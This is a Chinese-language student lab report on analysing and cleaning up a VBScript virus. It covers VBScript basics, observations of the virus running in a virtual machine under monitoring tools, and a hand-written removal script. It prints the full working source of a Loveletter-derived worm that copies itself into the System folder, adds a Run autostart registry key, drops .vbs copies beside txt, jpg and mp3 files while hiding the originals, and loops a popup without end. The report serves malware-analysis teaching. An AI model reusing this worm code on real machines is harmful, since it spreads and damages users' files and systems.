# VBScript脚本病毒分析与清除				

# 【实验目的】

1. 了解VBScript如何实现文件、进程及注册表操作
2. 了解VBScritp病毒的工作原理
3. 了解VBScritp病毒的感染目标和感染方式
4. 掌握编写VB脚本病毒专杀工具的一般方法

# 【实验原理】

了解VBScript语法（可查询“微软VbScript手册vbs.chm”）

## 1文件操作

> (1) 创建文件对象：文件操作前都要创建文件对象
>
> `Set fso = CreateObject("Scripting.FileSystemObject")`
>
> (2) 打开当前脚本：**==WScript.ScriptFullname当前运行脚本的路径==**
>
> `fso.OpenTextFile(WScript.ScriptFullname,1)`
>
> `fso.GetFile(WScript.ScriptFullName)`
>
> (3) 以文本形式读取file整个文件：`file.ReadAll `
>
> (4) 获取指定文件夹的路径 ：`fso.GetSpecialFolder(1)	`**==1：获取System文件夹路径，0：windows文件夹，2：temp文件夹==**
>
> (5) 备份文件：`c.Copy(dirsystem&"MSKernel32.vbs")	`
>
> (6) 取文件后缀：`fso.GetExtensionName(f1.path)	`
>
> (7) 获得文件夹句柄：`fso.GetFolder(folderspec)` ，`'folderspec`为文件夹路径
>
> (8) 创建文件：`fso.CreateTextFile(f1.path&".vbs")`，`f1.path&".vbs"`为路径及文件名
>
> (9) 文件属性：`f1.attributes = 2`为隐藏文件
>
> (10) 子文件夹：`folder.SubFolders`
>
> (11)注释：`Rem comment` or	`' comment `

##  2注册表操作

> (1) 创建注册表对象：`Set regedit = CreateObject("WScript.Shell")`
>
> - ==创建WScript.Shell对象，用来修改注册表==
>
> (2) 写注册表：`regedit.RegWrite regkey, regvalue。`
>
> - （regkey、regvalue是函数RegWrite的参数）
>
> (3) 删除注册表：`regedit.RegDelete regkey`。
>
> - （regkey是函数RegDelete的参数）

#### .RegWrite

向注册表写入一个值

```vbscript
'语法 
      objShell.RegWrite strRegName, anyValue, [strType]

'参数

   objShell  ' 一个 WScript.Shell 对象 由CreateObject("WScript.Shell") 创建

   strRegName ' 设置一个密钥而不是终止strRegName的键\
         'To set a key instead of a value terminate strRegName  with a backslash character \

         'strRegName必须以其中一个开头

         HKEY_CURRENT_USER  or HKCU
         HKEY_USERS         
         HKEY_LOCAL_MACHINE or HKLM
         HKEY_CLASSES_ROOT  or HKCR
         HKEY_CURRENT_CONFIG

   strType
         '数据类型，需是以下之一：
         REG_SZ, REG_EXPAND_SZ, (String values)
         REG_DWORD  (convert to Integer value)
         REG_BINARY (Integer value)
```

当指定键名(而不是值名)时，RegRead 将返回缺省值。
When you specify a key-name (as opposed to a value-name), RegRead returns the default value.

## 3进程操作

> (1) 创建进程对象：`Set winm = GetObject(“winmgmts:")`
>
> (2) vbs文件：由wscript.exe进程调用并执行
>
> (3) 查询所有wscript.exe进程：`pocs=winm.execquery("select * from win32_process where name = 'wscript.exe'")`
>
> (4) 终止进程：`processor.terminate`

# 【实验内容】

1. 在虚拟机中解压文件；

## 编写脚本

2. 学习脚本语言VBScript对文件、注册和进程等的基本操作：

(1) 按照文档《VBScript基础》， 编写相应的脚本文件，实现对文件、注册和进程等的基本操作。

### 文件操作

编写有三个功能的VBScript

读入本脚本内容并弹窗

```vbscript
' 创建文件对象,文件操作前都要创建文件对象
Set fso = CreateObject("Scripting.FileSystemObject")

Rem 弹窗显示自己内容
'打开当前脚本 WScript.ScriptFullname当前运行脚本的路径
Const ForReading = 1, ForWriting = 2
Set file = fso.OpenTextFile(WScript.ScriptFullname,ForReading)

' 以文本形式读取file整个文件
ReadAllTextFile = file.ReadAll 
' 弹窗
MsgBox(ReadAllTextFile)
file.Close

Rem  备份文件
Set MyFile = fso.GetFile(WScript.ScriptFullname)
newfileName = "MSKernel32.vbs"
MyFile.Copy(newfileName)	

Rem 打印出System 文件夹下直属的文件
' 获取指定文件夹的路径	1 获取System文件夹路径，0 windows文件夹，2 temp文件夹
Const WinFolder = 1
Set tfolder = fso.GetSpecialFolder(WinFolder)

' 获得文件夹句柄 ，'folderspec为文件夹路径
Set fjubing = fso.GetFolder(tfolder)

' 创建文件，f1.path&".txt"为路径及文件名
Set MySFL = fso.CreateTextFile("C:\VBStest.txt")

' 子文件夹
Set sf = fjubing.SubFolders
For Each f1 in sf
' 取文件后缀
  GetAnExtension = fso.GetExtensionName(f1)
  s = ""
  s = s & f1 
  s = s & " filename:"
  s = s & f1.name 
  ' 写入子文件夹文件名
  MySFL.WriteLine(s)
Next
MySFL.Close
```

功能一：弹窗显示自己内容



功能二：复制自身



功能三：打印出System 文件夹下直属的文件



### 注册操作

```vbscript
' 创建注册表对象：
Set regedit = CreateObject("WScript.Shell")

myKey = "HKCU\Software\Microsoft\CTF\Assemblies\ReTest"

' 写注册表  （regkey、regvalue是函数RegWrite的参数）
regedit.RegWrite myKey, 1, "REG_SZ"

' 删除注册表  （regkey是函数RegDelete的参数）
'regedit.RegDelete regkey
```

为了不对计算机造成损坏，我们在不知名的地方创建一个`ReTest`键，类型REG_SZ



随后双击脚本程序，再刷新注册表界面，可以看到对数值进行了修改


随后再次修改程序，注释**写注册表**代码，并取消**删除注册表**的注释，双击运行发现整个注册表项都不见了



并且如果再次双击就会报错，而Error 80070002含义是： The system can not find the file specified，侧面印证了键值被删除。



### 进程操作

```vbscript
Set objWMIService = GetObject("winmgmts:")
Set colScheduledJobs = objWMIService.ExecQuery("select * from win32_process where name = 'wscript.exe'")
For Each objJob in colScheduledJobs
    Wscript.Echo "Name: " & objJob.Name & VBNewLine
Next
```

弹窗显示`Name: wscript.exe`，表明确有此进程正在运行



## 运行脚本病毒	

3. 运行脚本病毒	

(1) 进入虚拟机快照**“病毒分析实验室”；**

即恢复之前状态，在运行病毒前**一定**要拍摄虚拟机快照，否则虚拟机将会受到病毒的袭扰。



(2) 文件子文件夹“subfolders”中的文件“svir”添加扩展名vbs，得到病毒文件svir.vbs；

(3) 不使用监控软件，运行脚本文件svir.vbs，观察运行结果；

| 过程  | 描述                           | 实物图                                                       |
| ----- | ------------------------------ | ------------------------------------------------------------ |
| 1     | 弹出`病毒发作`弹窗             |  |
| 2Loop | 多次重复弹窗，短时间结束不掉，只能不去管它 |  |
| 3     | test1文件夹下新增两个`vbs`文件，且两个文件双击都会弹出与病毒文件相同的弹窗。<br>而原本的文件处于隐藏状态。 |  |
|4|test2与test作用效果相同，值得注意的是原本有内容的jpg文件在有新副本时并没有带上原内容。<br>说明其仅仅是伪装成别的文件。||
|5|由于弹窗过多，尝试重启电脑，然后就看到了高血压的一幕，难道时已经攻陷了系统盘？||
|6|前去查看倒是没有发现沦陷，仅仅是新增了一个vbs文件，但是桌面上却永远留下了一个弹窗。||

(4) 恢复虚拟机快照“病毒分析实验室”；

此时之前的快照便能大显身手



## 监控病毒行为

(5) 使用监控软件Filemon，Regmon，Process Explorer，观察脚本文件svir.vbs的运行结果，记录svir.vbs运行后，对文件、注册表和进程的操作；

### Filemon

过滤设为，注意不要把**system**过滤了

```bash
ctfmon.exe; TPAutoconnect.exe; Lsass.exe; FileMon.exe; Regmon.exe; tcpview.exe; procexp.exe; vmtoolsd.exe;
```

可以检测到，病毒分别在系统盘和子文件夹内写入，并且对此文件夹内原有的文件设置了属性。



### Regmon

在此发现，脚本发出了大量Create和setValue请求。



### Process Explorer 

程序运行之后发现新增了一个进程。把这个进程关闭之后，弹窗就消失了。

###  

###  IceWord 

此处监测到启动组部分新增了一个开机启动项，名称为MSKernel32，路径正是病毒复制到系统盘的路径。



## 查看病毒分析

(6) 查看svir.vbs的病毒源码分析，指出病毒如何用代码实现对文件、注册表和进程的操作。

### 病毒源码

```vbscript
Rem barok -loveletter(vbe) <i hate go to school>
Rem by:spyder/ispyder@mail.com/@GRAMMERSoftGroup/Manila,Philippines

'http://msdn.microsoft.com/en-us/library/d6dw7aeh(VS.85).aspx
'On Error Resume Next 
' 发生错误时，程序执行下一代码
Dim fso,dirsystem,file,vbscopy
' 定义变量
Set fso = CreateObject("Scripting.FileSystemObject")	'创建文件对象FileSystemObject位于库 Scripting
Set file = fso.OpenTextFile(WScript.ScriptFullname,1)
'以只读方式打开当前脚本，WScript.ScriptFullname返回当前运行脚本的完整路径。
vbscopy = file.ReadAll	'将病毒全部代码赋给vbscopy
' 以文本形式读取整个文件，并赋给VBscopy

main()
Sub main()
	On Error Resume Next
	Dim wscr,c
	Set wscr = CreateObject("WScript.Shell")
' 创建一个WScript.Shell对象，用来修改注册表
	Set dirsystem = fso.GetSpecialFolder(1)	
' 1：'获取System文件夹路径，0：windows文件夹，2：temp文件夹
	Set c = fso.GetFile(WScript.ScriptFullName)	
'通过正在执行脚本路径获取病毒文件
	c.Copy(dirsystem&"\MSKernel32.vbs")	
'' 备份病毒到系统目录中
	
REM开始调用几个功能模块
	regruns()	
' 修改注册表，创建自启动项
	folderlist("D:\ExpNIC\VirusAD\Tools\ScriptVir\VBA\")
' 感染指定目录下的文件
	runmsg()	
'显示病毒发作
End Sub

Sub regruns()	'在注册表中创建自启动项
	On Error Resume Next
	regcreate '调用自定义函数regcreate
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32",dirsystem&"\MSKernel32.vbs" '两个参数

End Sub


Sub regcreate(regkey,regvalue)	'修改注册表（创建键值）
	On Error Resume Next
	Set regedit = CreateObject("WScript.Shell")
	regedit.RegWrite regkey,regvalue
End Sub


Sub infectfiles(folderspec)	'执行传染文件操作
	On Error Resume Next
	Dim f,f1,fc,ext,s,m
	Set f = fso.GetFolder(folderspec) '获得文件夹folderspec的句柄
	Set fc = f.Files '令fc为文件夹中所有文件
	For Each f1 in fc '遍历folderspec中所有文件
		ext = fso.GetExtensionName(f1.path)	'取文件后缀
		ext = LCase(ext)	'将后缀转换为小写
		If (ext="txt") or (ext="jpg") or (ext="mp3") Then	'此3种文件被感染
				Set m = fso.CreateTextFile(f1.path&".vbs")	'创建以被感染文件名命名的病毒副本
				m.write vbscopy '病毒代码写入被感染文件
				m.close '关闭句柄
				If (f1.attributes = 0 or f1.attributes = 32 or f1.attributes = 2080) Then	'隐藏原文件
f1.attributes = 2
REM 属性值为0是普通文件，32是上次备份后已改变的文件，2为隐藏文件
			End If
		End If
	Next
End Sub


Sub folderlist(folderspec)	'遍历文件夹
	On Error Resume Next
	Dim f,f1,sf
	Set f = fso.GetFolder(folderspec)
	Set sf = f.SubFolders
	For each f1 in sf
		infectfiles(f1.path)	'感染目录中的文件
		folderlist(f1.path)	'递归，继续搜索子目录
	Next
End Sub

Sub runmsg
	On Error Resume Next
	Dim i
	While i = 0    '死循环，一直显示“病毒发作”
   		MsgBox ("病毒发作")
	Wend 
End Sub

```

根据源代码我们可以发现病毒主要有四个功能

1. 备份病毒到System目录下
2. 在注册表中创建自启动项
3. 遍历子文件夹，创建`txt、jpg、mp3`三种类型文件同名的vbs文件，并隐藏旧文件
4. 始终显示“病毒发作”弹窗

### 病毒清除

4. 针对病毒行为，编写清除病毒的svir.vbs文件。从文件、进程、注册表等方面考虑如何清除病毒及病毒对操作系统的影响。

##### 主程序

```vbscript
'On Error Resume Next
Dim fso,dirsystem,file,vbscopy,folder
Set fso = CreateObject("Scripting.FileSystemObject")	'创建文件对象
Set file = fso.OpenTextFile(WScript.ScriptFullname,1)
Set folder = fso.GetFile(WScript.ScriptFullname).ParentFolder
main()

Sub main()
	'开始调用几个功能模块
	regdele()	'删除注册表
	msgbox(folder.path)

	folderlist(folder.path) ' 删除文件夹内的一众病毒
	
	Set dirsystem = fso.GetSpecialFolder(1)	'获取System目录
	fso.DeleteFile(dirsystem&"\MSKernel32.vbs")	'删除在System目录备份的病毒
	
	MsgBox("game over") '显示病毒被清除
	stoprocess '结束所有script进程
	
End Sub
```

##### 删除自启动项函数

```vbscript
Sub regdele()	'在注册表中删除自启动项
	'On Error Resume Next
	Set regedit = CreateObject("WScript.Shell")
	regkey = "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\MSKernel32"
	regedit.RegDelete regkey
End Sub
```

#####  删除子文件夹病毒函数

```vbscript
'指定文件夹
Sub deinfectfiles(folderspec)	'执行删除病毒文件
	Set f = fso.GetFolder(folderspec)
	For Each item in f.Files
	'指定删除的文件类型
		If (item.attributes = 2) Then	 '不再隐藏
			item.attributes = 0
		End If
        ext = LCase(fso.GetExtensionName(item.path)) '小写的后缀
		If ext = "vbs" Then
			'MsgBox item.name
			s = s & item.Name & VBNewLine
			fso.DeleteFile(item.path)
		End If
	Next
Wscript.Echo s & "Has Been Shutdown" & VBNewLine
End Sub

Sub folderlist(folderspec)	'遍历文件夹
	On Error Resume Next
	Dim f,f1,sf
	Set f = fso.GetFolder(folderspec)
	Set sf = f.SubFolders
	For each f1 in sf
		deinfectfiles(f1.path)	'清除目录中的文件
		folderlist(f1.path)	'递归，继续搜索子目录
	Next
End Sub
```

##### 终止所有script进程函数

```vbscript
Sub stoprocess
Set objWMIService = GetObject("winmgmts:")
Set colScheduledJobs = objWMIService.ExecQuery("select * from win32_process where name = 'wscript.exe'")
for Each processor in colScheduledJobs
	processor.terminate
Next
End Sub
```

#### 运行效果

在双击执行后，病毒就结束咧

文件已经被删除



File Monitor显示script进程发出了五个DELETE请求，位置恰好与此前新建的相对应，以及恢复。这里也侧面说明此前的病毒没有删除原有文件。

